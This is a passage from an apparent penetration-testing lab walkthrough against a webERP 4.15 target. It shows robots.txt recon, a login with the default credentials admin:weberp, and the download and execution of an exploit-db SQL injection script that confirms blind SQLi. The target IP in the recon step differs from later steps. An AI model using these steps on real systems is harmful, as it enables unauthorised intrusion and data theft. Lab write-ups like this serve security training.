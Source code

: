From the output we see that our scan reveals `robots.txt` includes an entry.

Viewing `robots.txt` we discover `/weberp/index.php`.

```
┌──(kali㉿kali)-[~]
└─$ curl http://172.16.201.19/robots.txt                                     
User-agent: *
Allow: /weberp/index.php
```

Navigating to `http://192.168.100.72/weberp` we see the real login form of `webERP`.

![weberp](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_135_image_2_jSk2rsyz.png)

weberp

We proceed by searching for potential exploits and discover [WebERP 4.15 - SQL injection](https://www.exploit-db.com/exploits/47013).

## Exploitation

According to the script, we require credentials for exploitation.

Before attempting to brute force credentials, we test default credentials for webERP and find that we are able to successfully authenticate with `admin:weberp`.

We begin by downloading the exploit to our attack machine.

```
kali@kali:~$ wget https://www.exploit-db.com/raw/47013
```

We view the usage info:

```
(+) usage: <filename> <target> <path> <login> <password> <order>
(+) eg: <filename> 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
```

Now we execute the exploit with the credentials `admin:weberp`.

```
kali@kali:~$ python 47013 192.168.100.72 "weberp/" admin weberp 0
Blind sqli is confirmed
```

From the output we see that the target is vulnerable to blind SQLi.

To proceed, we need to find the SQL server version, the number of databases, and each database's name.

We know that webERP works on MySQL version 4.3 or above based on the [Software Requirements](http://www.weberp.org/weberp/ManualContents.php?ViewTopic=Requirements).

To determine the number of databases on the target we need to modify our previous [exploit](https://www.exploit-db.com/exploits/47013) to reflect the following:
